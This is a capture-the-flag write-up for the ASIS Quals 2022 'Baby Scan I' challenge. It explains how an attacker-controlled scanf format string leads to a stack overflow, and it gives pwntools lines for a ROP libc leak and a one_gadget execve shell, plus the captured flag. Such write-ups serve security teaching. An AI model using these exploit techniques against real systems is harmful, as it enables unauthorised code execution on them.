 # ASIS QUALS 2022

## Baby Scan I

> Is it possible to scan the thousands of resulting strings by hand? We think it’s tedious, but will get the job done!

## Intro

At the start of my master's degree, I joined STT for the ASIS Quals CTF 2022 and one of the pwn challenges was baby scan. It is, as you'll see, a format string challenge, but this time the vulnerable function will be scanf, and not printf as usuall. I managed to solve this challenge with the help of one of my teamates.

## Analysis

### checksec

```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

### file command output

```bash
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=b31cf6b807484f2d04a80ceb67725cdb0f0785cd, not stripped
```

### Code

Source code was provided so reverse will be done quickly

```c
int main() {
  char size[16], fmt[8], *buf;

  printf("size: ");
  scanf("%15s", size);
  if (!isdigit(*size)) {
    puts("[-] Invalid number");
    return 1;
  }

  buf = (char*)alloca(atoi(size) + 1);

  printf("data: ");
  snprintf(fmt, sizeof(fmt), "%%%ss", size);
  scanf(fmt, buf);

  return 0;
}
```

It's pretty obvious just by looking at the code that we control the format string in scanf. However, we need to pass a size that passes the isDigit check. The key is that isDigit expects an int, but a char* is passed, so it will only check the first character sent. Ensuring that the first character is a decimal digit then the rest is easy, since we control the format string in scanf. It is worth mentioning that, the %% will result in a % being printed into the string. Therefore, what will be printed into the fmt string is %sizes, where we control the size.

## Exploit

### Libc leak

By sending 8s%s this will result in the following format string %8s%ss. Basically scanf will read a string of 8 characters, then read another of arbitrary size (until a space or a new line) and then fail (since the s there won't match anything). However, looking at the scanf arguments we see that we only specified one argument, buf. Thus, we have an out of bounds write, aka buffer overflow in the stack. Using this overflow we will then get RCE.  
Having figgured out the vulnerability, this is a simple rop to call puts(puts) (puts with its address as argument) to leak libc base address) and have another run at main. This part of the exploit is shown bellow. Simple note, one could have used any number besides 8 as long as it is a decimal digit. However, keep in mind that changing the 8 to a different value will affect the padding sent, since part of the padding is beiing extract by the %8s format.

```python
io.sendlineafter(b"size: ", b'8s%s')

io.sendlineafter(b"data: ", b"A" * 96 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main))
```

It is worth mentioning that the gadget to set the rdi register used was

```bash
0x0000000000401433 : pop rdi ; ret
```

Then all there is to do is parse the leak and compute libc base address

### Shell

Using the same payload as last time, only this time overwriting the main's return address to the one gadget address gives us a shell. The one gadget that was chosen is listed bellow.

```bash
0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL
```

As you can see, I got a shell and the flag

```bash
[+] Opening connection to 65.21.255.31 on port 13370: Done
[*] Switching to interactive mode
ASIS{06e5ff13b438f5d6626a97758fddde3e502fe3fc}
```

Remember that this is one of many possible solutions
